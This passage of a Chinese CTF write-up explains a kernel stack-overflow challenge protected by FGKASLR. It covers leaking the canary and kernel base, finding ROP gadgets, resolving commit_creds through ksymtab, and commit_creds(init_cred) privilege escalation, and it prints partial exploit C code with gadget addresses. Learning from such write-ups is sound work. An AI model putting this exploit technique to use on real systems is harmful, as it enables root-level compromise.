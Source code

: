 ```c
    _warn_printk("Buffer overflow detected (%d < %lu)!\n", 4096, v4);
    BUG();
  }
  _check_object_size(hackme_buf, v4, 0LL);
  if ( copy_from_user(hackme_buf, data, v5) )
    return -14LL;
  _memcpy(tmp, hackme_buf, v5);
  return v5;
}
```

保护基本是全开，还开启了`FGKASLR`，因此这里就是一个在开启了`FGKASLR`的情况下，一个无限制栈溢出的场景。

这道题目我们的思路如下：

- 通过`read`泄露出`canary`和`kernel_offset`。注意需要选一个`0xffffffff81000000 - 0xffffffff81200000`的地址来泄露.
- 计算出`swapgs`、`gadget`的真实地址（不会被二次随机化因此可以直接计算）
- 通过`write`栈溢出，选择合适的`gadget`构建`rop`链，利用`mov rax, [rax]`这样的`gadget`来将`__ksymtab_commit_creds`的`value_offset`值置入`rax`
- 利用`swapgs`返回到用户态，在用户态中计算出`commit_creds`的真实地址
- 再次`write`栈溢出，此时可以正常构建`commit_creds(init_cred)`来进行提权



其中，我们用到了`mov rax, [rax]`这样的`gadget`：

```c
0xffffffff81015a7f : mov rax, qword ptr [rax] ; pop rbp ; ret
```



最终的`exp`编写如下：

```c
#include "ltfallkernel.h"

// 0xffffffff81015a7f : mov rax, qword ptr [rax] ; pop rbp ; ret
size_t mov_rax_rax_pop_rbp = 0xffffffff81015a7f;
size_t pop_rsi_rdi_rbx = 0xffffffff8100745c;
size_t __memcpy = 0xffffffff8100dd60;
size_t pop_rdx = 0xffffffff81007616;
size_t init_cred = 0xffffffff82060f20;
size_t swapgs = 0xffffffff81200f10;
size_t pop_rax = 0xffffffff81004d11;

size_t ksymtab_commit_creds = 0xffffffff81f87d90;
size_t commit_creds_value_offset;

int dev_fd;
size_t *buffer;
size_t canary;

__attribute__((naked)) void calc_addr()
{
    // 从 main 函数将value_offset的函数放到了rax，这里拿出来
    __asm__ volatile(
        "mov commit_creds_value_offset, rax;");
    
    // 计算commit_creds函数的真实地址
    size_t commit_creds = ksymtab_commit_creds + (0xffffffff & commit_creds_value_offset) - 4294967296;
    leak_info("commit_creds", commit_creds);

    // 用户空间无法执行内核态的代码，因此需要再次 rop
    int canary_index = 0x10;
    int ret_index = 0x14;
    buffer[canary_index] = canary;
```